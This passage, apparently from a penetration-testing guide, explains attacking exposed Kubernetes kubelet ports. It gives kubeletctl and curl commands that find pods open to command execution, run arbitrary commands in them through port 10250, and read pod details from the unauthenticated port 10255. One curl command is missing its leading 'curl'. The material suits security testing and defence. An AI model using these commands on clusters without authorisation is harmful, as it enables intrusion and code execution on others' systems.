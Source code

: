 The easiest way to do this is to use Cyberark's [kubeletctl](https://github.com/cyberark/kubeletctl). First scan the host to show which pods can have commands executed in them

```bash
kubeletctl scan rce --server [IP]
```

Then you can use this command to execute commands in one or more of the vulnerable pods. just replace `whoami` with the command of your choice and fill in the details of the target pod, based on the information returned from the scan command

```bash
 kubeletctl run "whoami" --namespace [NAMESPACE] --pod [POD] --container [CONTAINER] --server [IP]
```

If you don't have `kubeletctl` available but do have `curl` you can use it to do the same thing. First get the pod listing

```bash
curl -k https://[IP]:10250/pods/ | jq
```

From that pull out the namespace, pod name and container name that you want to run a command in, then issue this command filling in the blanks appropriately

```bash
https://[IP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=[COMMAND]"
```

- **10255/TCP - kubelet read-only**

The kubelet read-only port is generally only seen on older clusters, but can provide some useful information disclosure if present. It's an HTTP API which will have no encryption and no authentication requirements on it, so it's easy to interact with.

The most useful endpoint will be `/pods/` so retrieving it using curl (as below) and looking at the output for useful information, is likely to be the best approach.


```bash
curl http://[IP]:10255/pods/ | jq```
